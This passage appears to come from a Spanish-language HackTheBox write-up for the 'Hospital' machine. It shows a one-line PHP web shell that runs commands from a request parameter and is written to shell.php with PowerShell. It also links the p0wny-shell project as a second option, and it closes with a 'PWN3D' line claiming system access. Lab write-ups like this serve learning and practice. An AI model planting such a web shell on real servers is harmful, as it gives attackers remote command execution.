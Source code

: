 Una forma de hacerlo fue:

```
echo '<?php system($_REQUEST["cmd"]); ?>' | Out-File -Encoding UTF8 shell.php
```

![](/assets/img/HackTheBox/Hospital/cmd_request_3.png)
![](/assets/img/HackTheBox/Hospital/cmd_request_burpsuite.png)

Para la siguiente forma, utilicé este repositorio: [https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell)

![](/assets/img/HackTheBox/Hospital/nt_autho.png)

## PWN3D.